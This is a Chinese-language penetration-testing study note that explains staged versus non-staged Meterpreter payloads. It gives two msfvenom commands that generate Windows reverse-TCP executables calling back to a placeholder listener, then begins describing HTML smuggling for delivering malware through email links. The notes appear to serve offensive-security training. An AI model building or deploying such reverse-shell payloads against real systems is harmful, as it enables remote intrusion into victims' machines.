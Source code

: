 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，
### *稱為 HTML Smuggling*


